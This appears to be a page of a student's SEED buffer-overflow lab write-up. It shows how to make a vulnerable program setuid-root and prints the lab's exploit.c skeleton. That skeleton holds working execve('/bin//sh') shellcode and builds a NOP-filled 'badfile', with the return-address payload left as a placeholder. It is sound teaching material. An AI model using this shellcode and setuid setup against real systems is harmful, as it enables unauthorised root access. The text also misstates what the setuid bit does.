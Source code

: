 \documentclass[14pt]{extarticle}
\begin{document}
Next I need to set the owner of the file to be root, so I can later set the file to execute as the regular user\cite{seed-bof}. This command must be ran as root inorder to have the permissions to change the owner of the file: 
\begin{lstlisting}[language=bash]
    sudo chown root stack
\end{lstlisting}

Now I need to set the permissions of the file to allow anyone in the group or other to read or execute the file (which is needed so I can execute it as the user seed). The 4 at the start of the permissions will tell the file to execute as the regular user, which in this case will be root (which we set in the last command). So, when executing the file, it will be ran as the root user, but I don't need to be root to run the file. 
\begin{lstlisting}[language=bash]
    sudo chmod 4755 stack
\end{lstlisting} \cite{seed-bof}\\
Now I have a vulnerable program that I can execute, and when executed the file will run with the permissions of the root user.

\section{Task 2}
Now to exploit the vulnerability.\\
To create the "badfile" I need to fill the file with the hex value of the exploit code, the address of the exploit code(positioned to overwrite the return address of the bof function), and a nop sled. This could possibly be done with a normal text editor, but can be done much easier with a simple c program. I am given the start to a C program which will generate the exploit file.
\begin{lstlisting}[language=bash]
 /* exploit.c */
/* A program that creates a file containing code for launching shell */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
char shellcode[] =
"\x31\xc0" /* Line 1: xorl %eax,%eax */
"\x50" /*Line 2: pushl %eax*/
"\x68""//sh" /*Line 3: pushl $0x68732f2f*/
"\x68""/bin" /*Line 4: pushl $0x6e69622f*/
"\x89\xe3" /*Line 5: movl %esp,%ebx*/
"\x50" /*Line 6: pushl %eax*/
"\x53" /*Line 7: pushl %ebx*/
"\x89\xe1" /*Line 8: movl %esp,%ecx*/
"\x99" /*Line 9: cdq*/
"\xb0\x0b" /*Line 10: movb $0x0b,%al*/
"\xcd\x80" /*Line 11: int $0x80*/
;
void main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile;
    /* Initialize buffer with 0x90 (NOP instruction)*/
    memset(&buffer, 0x90, 517);
    /* You need to fill the buffer with appropriate contents here*/
    /*... Put your code here …*/
    /*Save the contents to the file "badfile"*/
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}

\end{lstlisting}\cite{seed-bof}\\
\end{document}
